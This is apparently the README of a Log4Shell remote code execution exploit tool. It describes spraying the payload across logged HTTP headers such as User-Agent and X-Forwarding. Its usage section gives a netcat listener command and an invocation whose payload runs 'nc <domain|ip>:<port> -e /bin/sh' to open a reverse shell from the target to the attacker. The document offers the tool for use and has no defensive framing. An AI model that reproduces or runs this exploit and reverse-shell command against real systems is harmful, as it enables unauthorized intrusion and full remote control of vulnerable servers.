 ## Log4Shell RCE Exploit 

[![asciicast](https://asciinema.org/a/BSuuPRF6HXTe8rgReFmFIzvtj.svg)](https://asciinema.org/a/BSuuPRF6HXTe8rgReFmFIzvtj)

fully independent exploit does not require any 3rd party binaries.
The exploit spraying the payload to all possible logged HTTP Headers such as `X-Forwarding , Server-IP , User-Agent` 
### Usage
```reverseh shell receiver
nc -lvp <port>
```shell
python main.py -i lhost -u http://target:targetport -c "nc <domain|ip>:<port> -e /bin/sh" -p lhttp_port -l lldap_port
 ```


### Requirements 
- java-8-openjdk
- pip install -r requirements.txt
- python3.6+
